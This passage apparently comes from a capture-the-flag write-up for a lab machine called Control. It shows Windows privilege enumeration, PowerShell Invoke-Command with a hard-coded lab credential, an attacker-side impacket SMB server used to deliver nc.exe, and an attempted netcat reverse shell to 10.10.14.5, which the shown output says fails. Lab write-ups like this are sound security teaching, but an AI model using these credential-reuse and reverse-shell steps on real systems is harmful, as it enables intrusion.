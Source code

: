 > **[AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/what-is-applocker){:target="_blank"}** helps you create rules to allow or deny apps from running based on information about the apps' files. You can also use **AppLocker** to control which users or groups can run those apps.

> **Victime Machine**:

```cmd
whoami /priv
whoami /all
net user

powershell
hostname
# Fidelity

$username = 'hector@fidelity'
$password = 'l33th4x0rhector'
$SecPassword = ConvertTo-SecureString $password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential $username,$SecPassword
Invoke-Command -ComputerName localhost -Cred $Credential -ScriptBlock {whoami}
# [localhost] Connecting to remote server localhost failed with the following error message : Access is denied.  :(

$username = 'fidelity\hector'
$password = 'l33th4x0rhector'
$SecPassword = ConvertTo-SecureString $password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential $username,$SecPassword
Invoke-Command -ComputerName localhost -Cred $Credential -ScriptBlock {whoami}
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.5\smbFolder\nc.exe .\nc.exe
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
Invoke-Command -ComputerName localhost -Cred $SecCredential { C:\\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.5 443 }
# Program 'nc.exe' failed to run: Access is denied.       :(
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">